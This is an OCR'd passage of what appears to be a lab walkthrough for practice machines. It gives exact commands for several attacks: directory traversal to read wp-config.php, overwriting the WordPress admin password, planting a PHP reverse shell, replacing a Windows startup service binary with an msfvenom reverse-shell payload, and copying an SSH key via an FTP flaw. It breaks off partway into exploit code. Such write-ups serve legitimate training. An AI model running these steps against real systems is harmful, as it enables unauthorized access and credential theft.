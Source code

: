 2. Run the exploit
3. Root shell!

```bash
Socket/WP (.46)
```
Operating SystemWindows
Points25
Similar Machine (User)
Similar Machine (Root)
Exploit in Getting User
1. Gobuster the port 8081 - gobuster -u http://192.168.XX.46:8081 -w
/opt/SecLists/Discovery/Web-Content/common.txt -x txt,php,asp,db
1. CyBroHttpServer 1.0.3 is vulnerable to Directory Traversal -
https://www.exploit-db.com/exploits/45303
1. http://192.168.XX.46:8081/..\..\..\..\xampp\htdocs\blog\wp-config.php
2. Get the credential & Connect to MySQL - mysql -u root -h 192.168.XX.46 -p
3. Use wordpress database and select * from wp_users
4. Run UPDATE `wp_users` SET `user_pass`= MD5('bypassed') WHERE
`user_login`='admin';
1. Login to http://192.168.XX.46/blog/wp-admin/
2. Go to Theme Editor and edit 404.php
3. Use PHP Reverse Shell and listen to your machine
4.  User shell!
Privilege Escalation to Root
1. A System Scheduler service is installed in the machine located at C:\Program
Files\SystemScheduler\WScheduler.exe and vulnerable to
https://www.exploit-db.com/exploits/45072
1. Its permission is Everyone [WriteData/CreateFiles] and it will automatically run in startup
because HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Run
1. Create an exe file using msfvenom - msfvenom -p windows/shell_reverse_tcp
LHOST=192.168.XX.XX LPORT=443 -f exe -a x86 --platform win > WScheduler.exe
1. Backup the original schedule in the target machine - move "C:\Program
Files\SystemScheduler\WScheduler.exe" "C:\Program
Files\SystemScheduler\WScheduler.back"
1. Copy your reverse shell to target machine - copy \\192.168.XX.XX\LOVE\WScheduler.exe
"C:\Program Files\SystemScheduler\"
1. Restart the target machine - shutdown /R
2. Root shell!

```bash
Vulcan (.53)
```
Operating SystemLinux
Points20
Similar Machine (User)TryHackMe’s Kenobi
Similar Machine (Root)
Exploit in Getting User
1. Port 20048 (mountd) is open so run showmount -e 192.168.XX.53
2. Create a folder in your machine and run - mount -t nfs 192.168.XX.53:/ your_folder/ -no lock
3. cd _0_tyken
4. Read notes.txt and you’ll learn that the user tyken created an SSH key so you have to get it
5. FTP service is vulnerable to https://www.exploit-db.com/exploits/36803 (Unauth RCE)
6. nc 192.168.XX.53 21 then cpfr /home/tyken/.ssh/id_rsa then cpto /var/tmp/id_rsa
7. Connect to SSH - ssh -i id_rsa tyken@192.168.XX.53
8. User shell!
Privilege Escalation to Root
1. Target machine is running a keybase-redirector and is vulnerable to
https://www.exploit-db.com/exploits/46044
1. Create a fusermount.c
#include <stdio.h>
#include <stdlib.h>
#include <sys/types.h>
#include <unistd.h>
int main(int argc, char **argv)